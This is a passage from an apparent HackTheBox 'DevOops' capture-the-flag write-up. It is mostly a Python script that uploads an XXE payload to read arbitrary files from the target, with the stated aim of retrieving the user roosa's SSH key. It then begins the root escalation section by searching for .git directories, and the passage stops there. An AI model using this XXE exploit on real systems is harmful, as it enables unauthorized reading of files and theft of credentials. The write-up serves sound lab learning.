 ```py
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///%s">
]>

<payload>
  <Author>&file;</Author>
  <Subject>XEE</Subject>
  <Content>0x4rt3mis</Content>
</payload> ''' %file

    files = {'file': ('xxe.xml', xml_xee, 'text/xml')}
    roosa_key = r.post(url, files=files, proxies=proxies)
    if roosa_key.status_code == 200:
        match = re.search(r'Author:.*Subject', roosa_key.text, re.DOTALL).group(0)
        print(match.removesuffix('\n Subject').removeprefix('Author: '))
    else:
        print("[+] Sorry, file does not exist. Try with another file !! [+]")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-f', '--file', help='File to be read', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    file = args.file

    '''Here we call the functions'''
    # Let's get the ssh key
    getXEEKey(rhost,file)

if __name__ == '__main__':
    main()
```

So, let's get root on the box now.

# Roosa --> Root

We see some indicatives that maybe we should have a .git directory on the box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2006:21:48.png)

So, we search for it

```sh
find / -type d -name '.git' 2>/dev/null
```

And found it
